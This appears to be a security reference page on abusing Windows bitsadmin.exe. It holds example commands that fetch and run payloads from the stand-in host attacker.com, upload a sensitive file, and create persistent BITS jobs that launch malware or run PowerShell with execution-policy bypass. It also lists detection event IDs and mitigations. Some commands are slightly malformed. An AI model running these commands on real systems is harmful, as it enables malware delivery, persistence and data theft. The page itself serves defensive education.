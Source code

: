 # bitsadmin.exe
## What is it?
*```bitsadmin.exe``` (Background Intelligent Transfer Service Admin) is a **command-line tool** used to manage **BITS (Background Intelligent Transfer Service)**, a Windows component for **asynchronous, prioritized, and resumable file transfers** over HTTP or SMB.*  
*Attackers abuse ```bitsadmin.exe``` to **download malware, exfiltrate data, establish persistence, and evade security controls.***

*Since BITS is a **trusted Windows service**, its traffic is often **whitelisted** in security solutions, making detection more challenging.*

## Legitimate Usage
- **Windows Updates & Patching** → Download updates efficiently in the background.
- **Software Deployment** → Transfer application files between systems.
- **Large File Transfers** → Resume interrupted downloads without starting over.
- **Syncing Data Across Devices** → Manage background transfers for Microsoft services.

## How to abuse it
- **Stealthy Malware Download** → Retrieve malicious payloads while evading detection.
- **Data Exfiltration** → Upload stolen data without triggering alerts.
- **Persistence via BITS Jobs** → Schedule repeated execution of malicious commands.
- **Execution of Remote Payloads** → Download and run malware directly from attacker-controlled servers.

## Example Attacks
### 1. Download & Execute a Malicious File
*Attackers can abuse BITSAdmin to retrieve and execute malware remotely.*

```
bitsadmin /transfer MalwareDownload http://attacker.com/malware.exe C:\Users\Public\malware.exe start C:\Users\Public\malware.exe
```

**Effect:**
- Downloads ```malware.exe``` to ```C:\Users\Public\```.
- Executes the malware, bypassing some security controls.

### 2. Data Exfiltration via BITS
*Attackers can silently upload stolen files to a remote server using BITSAdmin.*

```
bitsadmin /transfer DataExfil http://attacker.com/upload C:\SensitiveData.txt
```

**Effect:**
- Sends ```SensitiveData.txt``` to ```attacker.com``` without triggering common monitoring tools.

### 3. Persistence via Malicious BITS Job
*BITS jobs can be scheduled to **run malicious commands** repeatedly, ensuring persistence.*

```
bitsadmin /create PersistentJob bitsadmin /addfile PersistentJob http://attacker.com/payload.exe C:\Windows\Temp\payload.exe bitsadmin /SetNotifyCmdLine PersistentJob C:\Windows\Temp\payload.exe NULL bitsadmin /Resume PersistentJob
```

**Effect:**
- Downloads ```payload.exe``` and **executes it on completion**.
- **Resurrects itself** even after system reboots.

### 4. Execution Without a Visible Window
*Malware authors use BITSAdmin to execute payloads in the background without a visible process.*

```
bitsadmin /create HiddenJob bitsadmin /addfile HiddenJob http://attacker.com/script.ps1 C:\Windows\Temp\script.ps1 bitsadmin /SetNotifyCmdLine HiddenJob powershell.exe "-ExecutionPolicy Bypass -File C:\Windows\Temp\script.ps1" bitsadmin /Resume HiddenJob
```

**Effect:**
- Downloads and runs ```script.ps1``` using **PowerShell**, hiding execution from users.

### 5. Lateral Movement via SMB
*Attackers can copy files over SMB using BITSAdmin, bypassing network restrictions.*

```
bitsadmin /transfer LateralMove \192.168.1.100\share\malware.exe C:\Windows\Temp\malware.exe
```

**Effect:**
- Moves ```malware.exe``` to ```192.168.1.100```, allowing lateral movement.

## Detection & Mitigation
### Detection Methods
**Monitor Suspicious BITS Jobs**
- **Event ID 4698 (Scheduled Task Creation)** → Detect persistent BITS jobs.
- **Event ID 7035 & 7036 (BITS Service Start/Stop)** → Identify abnormal BITS activity.

**Detect Unusual Network Traffic**
- **Event ID 5156 (Outbound Network Connection)** → Identify unauthorized HTTP transfers.
- **Monitor for BITSAdmin usage with non-legitimate domains.**

**Identify Execution of Remote Payloads**
- **Check command-line logs for ```bitsadmin /transfer``` followed by executable launches.**
- **Monitor process creation for execution of downloaded files.**

### Mitigation Strategies
- **Restrict BITSAdmin Usage** → Use AppLocker or WDAC to block ```bitsadmin.exe```.
- **Limit Internet Access for BITS** → Restrict BITS to only access trusted domains.
- **Monitor and Clear Suspicious BITS Jobs** → Regularly review ```bitsadmin /list``` for unknown transfers.
- **Enable Logging for BITS Events** → Track and alert on BITS file transfers.
